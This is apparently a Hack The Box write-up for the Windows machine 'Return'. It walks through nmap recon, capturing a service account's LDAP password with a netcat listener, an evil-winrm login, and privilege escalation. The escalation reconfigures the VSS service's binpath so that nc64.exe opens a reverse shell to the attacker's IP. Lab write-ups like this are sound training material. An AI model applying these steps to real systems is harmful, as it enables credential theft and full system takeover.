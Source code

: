 +++ 
title = "Return HTB Write up"
description = "Write up for the HTB machine 'Return'"
author = "greatmoves"
tags=["hackthebox", "easy", "evil-winrm", "privilege escalation", "windows", "service control"]
date = 2023-05-12
+++

# Inital recon

## nmap 
`nmap -sC -sV 10.10.11.108`

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-12 04:05:14Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 18m10s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-05-12T04:05:17
|_  start_date: N/A
```

`nmap -p- 10.10.11.108`
```
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
```

## Web recon
The web application is hosting a page at `10.10.11.108/settings.php`. Submitting the page with the `update` button and capturing this POST request in burpsuite we can see that there the only field being sent is the ip address.

Spin up a netcat listener and send through the ip of your attacking machine as the value for the ip in the POST request, making sure that your listener is listening on port `389`

From there we get this output
```
0*`%return\svc-printer�
                       1edFg43012!!
```
Judging by the web application, we can assume that `1edFg43012!!` is a potential password

# user.txt

## evil-winrm
We can see from our second nmap scan that there is a port for WinRm. Let's use evil-winrm to get a shell

`evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'`

The user flag can be found at `C:\Users\svc-printer\Desktop`

# root.txt

As the user `svc-printer` let's check our privileges using `whoami /priv`

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

let's also check which groups the user is in too using `whoami /groups`
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

The [Server Operators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators) group most importantly allows us to stop and start services

So, let's upload `nc64.exe` and use that to be the binary for a service. When we start the service, we will be able to catch a shell.

In our `evil-winrm` shell we can run the command `upload /home/kali/Desktop/htb/nc64.exe` to upload the `nc64.exe` binary.
Then 
```powershell
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\Users\svc-printer\Desktop\nc64.exe -e cmd YOUR_IP PORT"
```
to set the binary for the service VSS to `cmd.exe` with the arguments to run the `nc64.exe` binary.

Note: `sc.exe` is Service Control, which is what allows us to create, start, stop, query or delete any windows service.

Then, spin up a netcat listener on the same port you specified in the `sc.exe` command, then in the `evil-winrm` shell run `sc.exe stop VSS` and then `sc.exe start VSS` and your netcat listener will catch a root shell.

The root flag can be found at `C:\Users\Administrator\Desktop`


